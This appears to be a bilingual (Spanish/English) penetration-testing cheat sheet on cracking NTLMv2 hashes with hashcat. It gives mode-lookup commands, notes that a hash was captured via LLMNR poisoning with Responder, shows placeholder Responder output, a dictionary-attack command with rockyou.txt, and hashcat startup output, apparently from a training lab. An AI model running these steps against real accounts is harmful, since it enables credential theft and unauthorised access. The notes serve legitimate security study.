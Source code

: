 # Password attacks & Cracking

## Para buscar el id de hashcat
- `hashcat --help | grep -i "NTLM"`
- `hashcat --help | grep -i "KeePass"`
- **En windows sería**: `.\hashcat.exe --help | findstr /i "NTLM"`


## NTLM password cracking
- `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt`
- we got some hash with LLMNR poisoning via responder
```
[SMB] NTLMv2-SSP Client   : 172.16.5.130
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\backupagent
[SMB] NTLMv2-SSP Hash     : backupagent::INLANEFREIGHT:<SERVER_CHALLENGE>:<NT_RESPONSE>:<NTLMV2_RESPONSE_BLOB>
```
- save `backupagent::INLANEFREIGHT:<SERVER_CHALLENGE>:<NT_RESPONSE>:<NTLMV2_RESPONSE_BLOB>` en un `.txt`.
- and now run: `.\hashcat.exe -m 5600 -a 0 .\ntlmv2.txt .\rockyou.txt`
- `-m 5600` especifica que es NTLMv2.
`-a 0` indica un ataque de diccionario.
`hashes.txt` es el archivo con el hash NTLMv2.
- `rockyou.txt` es el diccionario de contraseñas.

### Example output:
```
PS C:\Users\Grunt\Desktop\hashcat-6.2.6> .\hashcat.exe -m 5600 -a 0 .\ntlmv2.txt .\rockyou.txt
hashcat (v6.2.6) starting

hiprtcCompileProgram is missing from HIPRTC shared library.

OpenCL API (OpenCL 2.1 AMD-APP (3628.0)) - Platform #1 [Advanced Micro Devices, Inc.]
=====================================================================================
* Device #1: AMD Radeon RX 6600, 8064/8176 MB (6732 MB allocatable), 14MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 245 MB

Dictionary cache hit:
* Filename..: .\rockyou.txt
* Passwords.: 14344384
```